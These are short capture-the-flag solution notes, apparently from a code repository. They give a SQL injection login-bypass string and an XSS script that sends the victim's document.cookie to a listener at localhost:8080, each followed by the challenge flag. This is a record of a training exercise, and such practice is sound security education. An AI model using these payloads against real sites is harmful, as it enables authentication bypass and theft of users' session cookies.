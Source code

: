* sqlinjection
  simple (ignore bracket) ~(" or 1=1 -- )~
  flag: little_bobby_tables_we_call_him_google_that_if_you_havent_heard_it_before 
* xss
  <img id="test" />
  <script>
  var im = document.getElementById("test");
  var cook = document.cookie;
  im.src = "http://localhost:8080/?cookie="+cook;
  </script>
  flag: if_there_was_a_little_bobby_script_alert_1_this_would_be_it
